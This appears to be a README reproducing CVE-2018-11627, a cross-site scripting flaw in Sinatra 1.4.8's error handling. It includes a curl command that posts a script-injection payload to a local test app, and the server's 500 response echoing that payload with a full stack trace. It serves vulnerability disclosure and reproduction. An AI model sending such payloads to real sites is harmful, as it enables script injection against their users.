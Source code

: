# CVE-2018-11627

Repro for CVE-2018-11627 with Sinatra 1.4.8. See https://github.com/sinatra/sinatra/issues/1428.

Start app

    BUNDLE_GEMFILE=Gemfile-sinatra-1.4.8 bundle exec ruby modular_app.rb

Test it

    $ ./test.sh
    + curl --include http://127.0.0.1:4567/ --data '" %x\"> <script>alert(1)</script>"'
    HTTP/1.1 500 Internal Server Error
    Content-Type: text/plain
    Content-Length: 2418
    Server: WEBrick/1.3.1 (Ruby/2.4.2/2017-09-14)
    Date: Thu, 07 Jun 2018 09:33:22 GMT
    Connection: Keep-Alive

    Rack::Utils::InvalidParameterError: invalid %-encoding (" %x\"> <script>alert(1)</script>")
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-1.6.10/lib/rack/utils.rb:127:in `rescue in parse_nested_query'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-1.6.10/lib/rack/utils.rb:117:in `parse_nested_query'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-1.6.10/lib/rack/request.rb:371:in `parse_query'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-1.6.10/lib/rack/request.rb:215:in `POST'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-1.6.10/lib/rack/request.rb:230:in `params'
        /Users/dentarg/.gem/ruby/2.4.2/gems/sinatra-1.4.8/lib/sinatra/base.rb:902:in `call!'
        /Users/dentarg/.gem/ruby/2.4.2/gems/sinatra-1.4.8/lib/sinatra/base.rb:895:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-protection-1.5.5/lib/rack/protection/xss_header.rb:18:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-protection-1.5.5/lib/rack/protection/path_traversal.rb:16:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-protection-1.5.5/lib/rack/protection/json_csrf.rb:18:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-protection-1.5.5/lib/rack/protection/base.rb:49:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-protection-1.5.5/lib/rack/protection/base.rb:49:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-protection-1.5.5/lib/rack/protection/frame_options.rb:31:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-1.6.10/lib/rack/nulllogger.rb:9:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-1.6.10/lib/rack/head.rb:13:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/sinatra-1.4.8/lib/sinatra/show_exceptions.rb:25:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/sinatra-1.4.8/lib/sinatra/base.rb:182:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/sinatra-1.4.8/lib/sinatra/base.rb:2013:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/sinatra-1.4.8/lib/sinatra/base.rb:1487:in `block in call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/sinatra-1.4.8/lib/sinatra/base.rb:1787:in `synchronize'
        /Users/dentarg/.gem/ruby/2.4.2/gems/sinatra-1.4.8/lib/sinatra/base.rb:1487:in `call'
        /Users/dentarg/.gem/ruby/2.4.2/gems/rack-1.6.10/lib/rack/handler/webrick.rb:88:in `service'
        /Users/dentarg/.rubies/ruby-2.4.2/lib/ruby/2.4.0/webrick/httpserver.rb:140:in `service'
        /Users/dentarg/.rubies/ruby-2.4.2/lib/ruby/2.4.0/webrick/httpserver.rb:96:in `run'
        /Users/dentarg/.rubies/ruby-2.4.2/lib/ruby/2.4.0/webrick/server.rb:290:in `block in start_thread'
